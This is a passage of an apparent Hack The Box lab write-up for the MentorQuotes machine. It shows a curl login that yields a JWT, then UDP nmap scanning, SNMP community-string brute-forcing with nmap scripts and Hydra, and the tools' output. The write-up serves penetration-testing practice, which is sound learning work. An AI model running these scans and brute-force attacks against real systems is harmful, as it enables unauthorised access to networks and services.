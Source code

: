 Which means we can be admin?
We get a token as james but it does give us admin access ..
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/auth/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "zarfl@mentorquotes.htb",
  "username": "james",
  "password": "zoinkers"
  }' |\
jq -r "."
```
```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJ6YXJmbEBtZW50b3JxdW90ZXMuaHRiIn0.ku-JMFuwxawl19mDjN2rEJ1LzSjtx_08qBNzrXaMeSY
```
I got stuck about there on this one 

## SNMP Enum
Now watching ippsec's video, he found the snmp port open while doing a UDP nmap scan in the background, we could also have gotten this info quick with the `--min-rate` argument

```bash
sudo nmap -sU --min-rate 10000 10.10.11.193 -oN scans/nmap.udp
sudo nmap -sU -sV -sC -p161 10.10.11.193 -oN scans/nmap.udp-detect
sudo nmap -sU --script snmp-brute -p161 10.10.11.193
[sudo] password for blnkn:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 18:08 GMT
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.045s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute:
|_  public - Valid credentials

Nmap done: 1 IP address (1 host up) scanned in 2.20 seconds
```

From the version detection in nmap we already know that `public` community string is valid be don't get much info from that. so looking at hacktricks we try hydra and onsixtyone, and that doesn't really find anything else for some reason
```bash
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt -v 10.10.11.193 snmp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-11 18:10:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 118 login tries (l:1/p:118), ~8 tries per task
[DATA] attacking snmp://10.10.11.193:161/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[161][snmp] host: 10.10.11.193   password: public
[STATUS] attack finished for 10.10.11.193 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-11 18:10:41
```
